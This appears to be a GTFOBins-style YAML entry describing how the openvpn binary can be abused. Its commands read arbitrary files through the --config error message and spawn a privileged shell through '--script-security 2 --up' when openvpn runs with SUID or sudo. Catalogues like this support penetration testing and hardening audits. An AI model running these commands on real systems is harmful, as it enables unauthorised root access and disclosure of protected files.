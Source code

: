 ```yaml
---
functions:
  file-read:
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        openvpn --config "$LFILE"
  suid:
    - code: |
        ./openvpn --dev tun0 --script-security 2 --up '/bin/sh -p -c "sh -p"'
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        ./openvpn --config "$LFILE"
  sudo:
    - code: |
        COMMAND='id'
        sudo openvpn --dev tun0 --script-security 2 --up '/bin/sh -c sh'
    - description: The file is actually parsed and the first partial wrong line is returned in an error message.
      code: |
        LFILE=file_to_read
        sudo openvpn --config "$LFILE"
---
```

